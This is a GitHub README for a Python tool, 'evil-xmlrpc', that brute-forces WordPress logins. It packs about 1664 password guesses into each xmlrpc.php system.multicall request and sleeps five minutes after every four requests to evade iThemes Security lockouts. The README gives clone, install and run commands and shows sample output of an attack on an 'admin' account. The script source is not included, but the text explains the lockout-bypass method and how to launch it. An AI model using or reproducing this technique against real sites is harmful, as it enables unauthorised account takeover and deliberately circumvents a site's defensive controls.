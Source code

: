 # evil-xmlrpc
evil-xmlrpc is a tool that I created to help me bruteforce wordpress user accounts using xmlrpc.php while bypassing iThemes Security preventing lockouts

While testing a specific target I noticed that xmlrpc was enabled, but after sending 5 requests against a discovered user account, I was locked out of the site. After waiting till the lockout period ended I saw that iThemes Security Plugin was being used on the site. I soon noticed that I was locked out after sending 4 requests. Regular bruteforce methods weren't going to work here. Later I discovered that you could send many login attempt via 1 single request using "system.multicall". In my particular situation I could only send 1666 login attempts in a single request (may be different for your target). So I made this script to be able to take a password list (of about 1 million words) and send it off in groups of 1664 (Initially was 1666 in the script, but cut it back by 2 for breathing room). 

For example: 
* Request 1 (Sends lines 1-1666 of wordlist) 
* Request 2 (Sends lines 1667-3332 of wordlist)
* Request 3 (Sends lines 3333-4998 of wordlist)
* Request 4 (Sends lines 4999-6664 of wordlist)

Before sending the 5th request in order to prevent being locked out of the site, stop for 5 mins and then continue going down the list.

## Install 

```sh
git clone https://github.com/0xApt/evil-xmlrpc.git
cd evil-xmlrpc
pip3 install -r requirements.txt
python3 evil-xmlrpc.py <passwordlist> <username> <https://www.examplesite.com>
```

## Demo output

```sh

root@user:~ python3 evil-xmlrpc.py 100000-pass-wordlist.txt admin https://www.examplesite.com                                                                                                                      

                 ██  ▀██                        ▀██
  ▄▄▄▄  ▄▄▄▄ ▄▄▄ ▄▄▄   ██     ▄▄▄ ▄▄▄ ▄▄ ▄▄ ▄▄    ██  ▄▄▄ ▄▄  ▄▄▄ ▄▄▄    ▄▄▄▄
▄█▄▄▄██  ▀█▄  █   ██   ██      ▀█▄▄▀   ██ ██ ██   ██   ██▀ ▀▀  ██▀  ██ ▄█   ▀▀
██        ▀█▄█    ██   ██       ▄█▄    ██ ██ ██   ██   ██      ██    █ ██
 ▀█▄▄▄▀    ▀█    ▄██▄ ▄██▄    ▄█  ██▄ ▄██ ██ ██▄ ▄██▄ ▄██▄     ██▄▄▄▀   ▀█▄▄▄▀
                                                               ██
                                                              ▀▀▀▀
                                By 0xapt

[*] Checking if site is vulnerable..
[*] Site is vulnerable!
[*] File has 100000 lines

[*] Sending Payload.. 
[*] Attempt: 1 
[*] Target User: admin
[*] Using lines 0 to 1664 from password list
[*] Content Length: 356283
[*] Interesting.. Saving response..
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 2 
[*] Target User: admin
[*] Using lines 1665 to 3328 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 3 
[*] Target User: admin
[*] Using lines 3329 to 4992 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 4 
[*] Target User: admin
[*] Using lines 4993 to 6656 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Waiting 5 mins to prevent lockout...
[*] Till next requests: 3:24
```
